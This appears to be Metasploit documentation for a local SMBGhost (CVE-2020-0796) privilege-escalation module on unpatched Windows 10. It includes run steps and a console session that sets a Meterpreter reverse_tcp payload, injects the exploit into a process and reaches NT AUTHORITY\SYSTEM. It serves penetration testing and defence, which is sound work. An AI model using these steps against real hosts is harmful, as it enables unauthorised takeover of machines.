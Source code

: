 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3)
protocol that can be leveraged to execute code on a vulnerable server. This
local exploit implementation leverages this flaw to elevate itself before
injecting a payload into winlogon.exe.

This vulnerability was patched in March 2020 but prior to that enough
information was publicly available to trigger a crash which led to pre-patch
workarounds. The official recommendation from [Microsoft][1] at the time was to
disable SMBv3 compression, a feature which this exploit relies on. The module's
check method will determine this value using the registry to identify whether or
not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.
Given that this is a local exploit and the connection is made to the local host
this is likely an ineffective measure against this particular implementation of
the vulnerability.

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the
box. The default setting is to have SMBv3 compression enabled.

## Verification Steps

  1. Start msfconsole
  1. Get a Meterpreter session on a vulnerable host
  1. Do: `use exploit/windows/local/cve_2020_0796_smbghost`
  1. Set the `SESSION` and `PAYLOAD` options
  1. Do: `run`
  1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf5 exploit(windows/local/cve_2020_0796_smbghost) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-PKLKKF7\user
meterpreter > sysinfo
Computer        : DESKTOP-PKLKKF7
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getsystem 
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(windows/local/cve_2020_0796_smbghost) > show options 

Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  -1               yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64


msf5 exploit(windows/local/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Windows Build Number = 18363
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[+] Process 4508 launched.
[*] Reflectively injecting the exploit DLL into 4508...
[*] Injecting exploit into 4508...
[*] Exploit injected. Injecting payload into 4508...
[*] Payload injected. Executing exploit...
[*] Sending stage (206403 bytes) to 192.168.159.153
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
